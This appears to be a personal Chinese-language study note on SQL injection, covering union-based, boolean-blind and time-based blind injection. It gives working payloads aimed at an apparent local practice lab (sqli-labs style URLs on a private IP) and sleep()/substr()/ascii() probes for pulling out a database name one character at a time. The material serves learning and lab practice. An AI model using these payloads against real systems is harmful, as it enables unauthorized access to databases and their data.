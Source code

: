 ![image-20231209105105479](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20231209105105479.png)

## SQL Injection Type

### union联合查询注入

Gifts union select 1,2,3,4#

在使用union select database()之前，要先确定有多少列，使用group by(order by)来判断

### Boolean-Base布尔型注入

布尔盲注的前提是页面有真假值

```mysql
通过ascii()函数,length()函数来进行大小比较从而确定字母
http://192.168.88.133/sql/Less-7?id=1')) and length((select database()))>7--+
http://192.168.88.133/sql/Less-7?id=1')) and length((select database()))>8--+
第一个命令回显是true，而第二个回显false，证明数据库名字长度为8
http://192.168.88.133/sql/Less-7?id=1')) and ascii(substr((select database()),1,1))>100--+
与substr()函数配合使用，即可将字母一个一个确认
```

### Time-Based基于时间延迟注入

通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在SQL语句中使用sleep()函数来看加载页面的时间来判断注入点

**适用场景：没有回显，甚至连注入语句是否执行都无从得知**

**原理分析**
有如下语句
select * from products where category = '?';
如果用户输入
Gifts' and sleep(2)#
那么原始语句就是
select * from products where category = 'Gifts' and sleep(2)
当category='Gifts'有值的话，休眠2秒
当category='Gifts'没有值的话，直接返回

**substr()函数**==变种mid()函数，用法一样==
分割字符串
select substr('Micheal',1,1)[^从第一个字符串开始取，取一个]
select substr('Micheal',2)[^从第二个开始取，取到最后]
select substr(database(),1,1) = 's'[^取数据库名的第一个字母，并判断是否为s，如果为s，则会返回1，否则返回0]

**length()函数**
见名知意，获取长度
select length(database())[^获取数据库名长度]

select substr(database(),1,1)='a' and sleep(2)[^从a一直试，直到发现页面返回慢了，则是正确的]

**ascii()函数**==变种ord()函数，用法一样==
select ascii('Micheal')[^获取字符串的ASCII码，此语句只能获得M的ASCII码]

select ascii(substr(database(),2,1))=33 and sleep(2)[^联合使用，通过ASCII码来试]
